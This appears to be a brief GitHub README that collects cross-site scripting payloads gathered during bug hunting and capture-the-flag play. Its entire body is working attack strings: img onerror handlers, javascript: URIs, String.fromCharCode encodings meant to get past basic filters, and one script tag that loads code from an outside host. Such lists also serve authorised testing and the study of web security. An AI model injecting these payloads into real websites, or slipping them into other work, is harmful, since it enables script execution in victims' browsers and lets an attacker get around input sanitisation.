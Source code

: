 # description
I found some useful payloads while bug hunting or playing some ctfs
so here it is !

## Payloads

for no closing script tags
><img src=no onerror=alert(1) foo=
><SCRIPT SRC=http://xss.rocks/xss.js?< B >

bypass basic filters to execute an alert box
>';">'>alert(String.fromCharCode(88,83,83))

without quotes and semicolons
><IMG SRC=javascript:alert('XSS')>

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

without any space

>"><img/src="x"/onerror=alert(99)>

